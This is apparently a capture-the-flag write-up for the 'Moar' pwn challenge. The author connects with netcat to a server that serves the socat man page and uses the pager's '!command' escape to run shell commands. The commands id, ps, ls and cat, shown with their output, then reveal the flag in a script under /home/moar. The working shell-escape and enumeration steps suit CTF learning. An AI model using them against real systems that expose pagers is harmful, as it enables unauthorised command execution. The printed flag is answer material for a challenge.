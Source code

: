 ### Moar / PWN / Foobanizer9000

Flag: `CTF{SOmething-CATastr0phic}`

> Finding yourself on the Foobanizer9000, a computer built by 9000 foos, this computer is so complicated luckily it serves manual pages through a network service. As the old saying goes, everything you need is in the manual.

`$ nc moar.ctfcompetition.com 1337`

When you connect to the CTF server you enter the socat manual. If you know how to execute a command when viewing a manual page rendered by `man` this challenge is easy. Just enter `!` + `command` + `<enter>` and your command is executed.

My discovery steps (summarized):

What user are running as?

```
!id
uid=1337(moar) gid=1337(moar) groups=1337(moar)
```

What processes are running? Small list so I assume we are running in a container.

```
!ps axuw
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
moar         1  0.0  0.0  30664  3200 ?        SNs  08:29   0:00 /usr/bin/socat - EXEC:/usr/bin/man socat,ptmx,stderr,setsid,sigint,
moar         2  0.0  0.0  15276  2348 ?        SNs  08:29   0:00 /usr/bin/man socat
moar        11  0.0  0.0  15144   360 ?        SN   08:29   0:00 /usr/bin/man socat
moar        12  0.0  0.0   6744   844 ?        SN   08:29   0:00 pager
moar        19  0.0  0.0   4504   748 ?        SN   08:29   0:00 sh -c ps axuw
moar        20  0.0  0.0  34424  2912 ?        RN   08:29   0:00 ps axuw
```

Any user homedirs? Guess based on the run-as user `moar`:

```
!ls -al /home
total 12
drwxr-xr-x  3 nobody nogroup 4096 Jun 14 14:17 .
drwxr-xr-x 21 moar   moar    4096 Jun 22 09:20 ..
drwxr-xr-x  2 nobody nogroup 4096 Jun 22 08:36 moar
```

We're in luck! A homedir with interesting content!

```
!ls -al /home/moar
total 24
drwxr-xr-x 2 nobody nogroup 4096 Jun 22 08:36 .
drwxr-xr-x 3 nobody nogroup 4096 Jun 14 14:17 ..
-rw-r--r-- 1 nobody nogroup  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 nobody nogroup 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 nobody nogroup  655 May 16  2017 .profile
-r-xr-xr-x 1 nobody nogroup  118 Jun 22 07:58 disable_dmz.sh
```

And voila:

```
!cat /home/moar/disable_dmz.sh
#!/bin/sh
echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
```
